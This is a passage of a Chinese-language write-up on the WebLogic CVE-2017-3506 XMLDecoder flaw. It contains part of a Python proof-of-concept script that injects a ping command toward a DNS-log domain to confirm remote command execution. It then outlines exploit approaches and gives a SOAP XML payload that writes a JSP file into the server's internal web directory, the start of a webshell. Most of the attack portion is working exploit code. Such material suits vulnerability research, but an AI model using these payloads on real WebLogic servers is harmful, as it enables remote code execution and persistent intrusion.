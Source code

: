```python
    print verify_url
    try:
        verify_rep = requests.get(verify_url, timeout=60, verify=False,allow_redirects = False)
        return verify_rep.content
    except Exception as e:
        return False

if __name__ == "__main__":
    if len(sys.argv)==2:
        try:
            x = urlparse.urlparse(sys.argv[1])
            procotol = x.scheme
            host = x.netloc.split(":")[0]
            port = x.port
            url = "{0}://{1}:{2}".format(procotol,host,port)
            domain = "{0}.{1}.{2}".format(port,host,dnslog_address)
            payload = "ping -n 3 {0} || ping -c 3 {1}".format(domain,domain)
            print "payload: {0}".format(payload)
            linux_data =linux_poc.format(payload)
            windows_data = windows_poc.format(payload)
            #print linux_data
            #print windows_data
            detect(url,linux_data)
            detect(url,windows_data)
            print check_dnslog(host,port)
        except Exception,e:
            print e
    else:
        print "usage:python {0} http://127.0.0.1:7001".format(sys.argv[0])
```

运行效果如下：

![detect_result](img/weblogic_CVE_2017_3506/detect_result.png)

#### 0x4、EXP的实现思路

从各种资料中学习到2种思路：

一是继续利用上面的PoC进行改造，利用各种系统命令来实现（也就是利用java.lang.ProcessBuilder）；

https://cxsecurity.com/issue/WLB-2018010082

二是使用不同类和参数，通过Java代码实现（比如通过java.io.PrintWriter直接写入webshell）

https://threathunter.org/topic/5a426e6bec721b1f1966f238

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
            <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/bb1fe939c9ec5.jsp</string><void method="println">
                    <string><%@ page language="java" pageEncoding="gbk"%><jsp:directive.page import="java.io.File"/><jsp:directive.page import="java.io.OutputStream"/><jsp:directive.page import="java.io.FileOutputStream"/><input type="hidden" path="<%=application.getRealPath("/") %>"><%response.setStatus(404);%></string></void><void method="close"/>
            </object>
        </java>
```